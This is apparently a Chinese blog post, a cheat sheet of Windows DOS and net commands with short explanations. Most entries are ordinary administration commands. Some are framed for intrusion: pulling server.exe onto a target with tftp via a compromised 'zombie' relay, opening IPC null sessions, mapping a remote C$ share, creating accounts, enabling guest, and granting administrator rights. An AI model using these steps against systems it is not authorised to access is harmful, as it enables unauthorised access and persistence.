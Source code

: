 ```yaml
---
title: Windows下DOS命令大全(经典收藏)
date: 2017-12-29 13:34:42
tags: Shell
---
```


**copy:** \\ip\admin$\svv.exe c:\ 或:copy\\ip\admin$\*.* 复制对方admini$共享下的srv.exe文件（所有文件）至本地C： 

**xcopy** 要复制的文件或目录树　目标地址\目录名 复制文件和目录树，用参数/Y将不提示覆盖相同文件 

**tftp -i** 自己IP(用肉机作跳板时这用肉机IP) get server.exe c:\server.exe 登陆后，将"IP"的server.exe下载到目标主机c:\server.exe 参数：-i指以二进制模式传送，如传送exe文件时用，如不加-i 则以ASCII模式（传送文本文件模式）进行传送
 
**tftp -i** 对方IP　put c:\server.exe 登陆后，上传本地c:\server.exe至主机 
**ftp ip** 端口 用于上传文件至服务器或进行文件操作，默认端口为21。bin指用二进制方式传送（可执行文件进）；
默认为ASCII格式传送(文本文件时) 
**route print **显示出IP路由，将主要显示网络地址Network addres，子网掩码Netmask，网关地址Gateway addres，接口地址Interface 
**arp** 查看和处理ARP缓存，ARP是名字解析的意思，负责把一个IP解析成一个物理性的MAC地址。arp -a将显示出全部信息 
**start **程序名或命令 /max 或/min 新开一个新窗口并最大化（最小化）运行某程序或命令 
**mem **查看cpu使用情况 
**attrib **文件名(目录名) 查看某文件（目录）的属性 
**attrib** 文件名 -A -R -S -H 或 +A +R +S +H 去掉(添加)某文件的 存档，只读，系统，隐藏 属性；用＋则是添加为某属性 
**dir **查看文件，参数：/Q显示文件及目录属系统哪个用户，/T:C显示文件创建时间，/T:A显示文件上次被访问时间，/T:W上次被修改时间 
**date /t 、 time /t **使用此参数即"DATE/T"、"TIME/T"将只显示当前日期和时间，而不必输入新日期和时间 
**set** 指定环境变量名称=要指派给变量的字符 设置环境变量 
set 显示当前所有的环境变量 
set p(或其它字符) 显示出当前以字符p(或其它字符)开头的所有环境变量 
pause 暂停批处理程序，并显示出：请按任意键继续.... 
if 在批处理程序中执行条件处理（更多说明见if命令及变量） 
goto 标签 将cmd.exe导向到批处理程序中带标签的行（标签必须单独一行，且以冒号打头，例如："：start"标签） 
call 路径\批处理文件名 从批处理程序中调用另一个批处理程序 （更多说明见call /?） 
for 对一组文件中的每一个文件执行某个特定命令（更多说明见for命令及变量） 
echo on或off 打开或关闭echo，仅用echo不加参数则显示当前echo设置 
echo 信息 在屏幕上显示出信息 
echo 信息 >> pass.txt 将"信息"保存到pass.txt文件中 
findstr "Hello" aa.txt 在aa.txt文件中寻找字符串hello 
find 文件名 查找某文件 
title 标题名字 更改CMD窗口标题名字 
color 颜色值 设置cmd控制台前景和背景颜色；0＝黑、1＝蓝、2＝绿、3＝浅绿、4＝红、5＝紫、6＝黄、7=白、8=灰、9=淡蓝、A＝淡绿、B=淡浅绿、C=淡红、D=淡紫、E=淡黄、F=亮白 
prompt 名称 更改cmd.exe的显示的命令提示符(把C:\、D:\统一改为：EntSky\ )
net use \\ip\ipc$ " " /user:" " 建立IPC空链接 
net use \\ip\ipc$ "密码" /user:"用户名" 建立IPC非空链接 
net use h: \\ip\c$ "密码" /user:"用户名" 直接登陆后映射对方C：到本地为H: 
net use h: \\ip\c$ 登陆后映射对方C：到本地为H: 
net use \\ip\ipc$ /del 删除IPC链接 
net use h: /del 删除映射对方到本地的为H:的映射 
net user 用户名　密码　/add 建立用户 
net user guest /active:yes 激活guest用户 
net user 查看有哪些用户 
net user 帐户名 查看帐户的属性 
net localgroup administrators 用户名 /add 把"用户"添加到管理员中使其具有管理员权限,注意：administrator后加s用复数 
net start 查看开启了哪些服务 
net start 服务名　 开启服务；(如:net start telnet， net start schedule) 
net stop 服务名 停止某服务 
net time \\目标ip 查看对方时间 
net time \\目标ip /set 设置本地计算机时间与"目标IP"主机的时间同步,加上参数/yes可取消确认信息 
net view 查看本地局域网内开启了哪些共享 
net view \\ip 查看对方局域网内开启了哪些共享 
net config 显示系统网络设置 
net logoff 断开连接的共享 
net pause 服务名 暂停某服务 
net send ip "文本信息" 向对方发信息 
net ver 局域网内正在使用的网络连接类型和信息 
